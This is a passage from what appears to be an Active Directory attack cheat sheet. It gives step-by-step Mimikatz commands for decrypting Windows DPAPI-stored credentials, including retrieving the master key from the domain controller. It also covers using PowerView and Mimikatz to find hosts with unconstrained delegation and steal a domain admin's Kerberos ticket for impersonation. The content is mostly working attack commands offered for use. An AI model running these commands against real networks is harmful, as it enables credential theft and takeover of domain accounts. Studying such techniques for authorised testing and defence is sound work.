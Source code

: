 ### List and Decrypt Stored Credentials using Mimikatz

Usually, encrypted credentials are stored in:

* `%appdata%\Microsoft\Credentials`
* `%localappdata%\Microsoft\Credentials`

By using the cred function of mimikatz we can enumerate the cred object and get information about it:

```text
dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"
```

From the previous command we are interested in the "guidMasterKey" parameter, which tells us which masterkey was used to encrypt the credential Let's enumerate the Master Key:

```text
dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>"
```

Now if we are in the context of the user \(or system\) that the credential belongs to, we can use the /rpc flag to pass the decryption of the masterkey to the domain controller:

```text
dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>" /rpc
```

We now have the masterkey in our local cache:

```text
dpapi::cache
```

Finally, we can decrypt the credential using the cached masterkey:

```text
dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"
```

Detailed Article: [DPAPI all the things](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials)

### Unconstrained Delegation

_What is this?: If we have Administrative access on a machine that has Unconstrained Delegation enabled, we can wait for a high-value target or DA to connect to it, steal his TGT then ptt and impersonate him!_

Using PowerView:

Discover domain- joined computers that have Unconstrained Delegation enabled

```text
Get-NetComputer -UnConstrained
```

List tickets and check if a DA or some High-Value target has stored its TGT

```text
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```
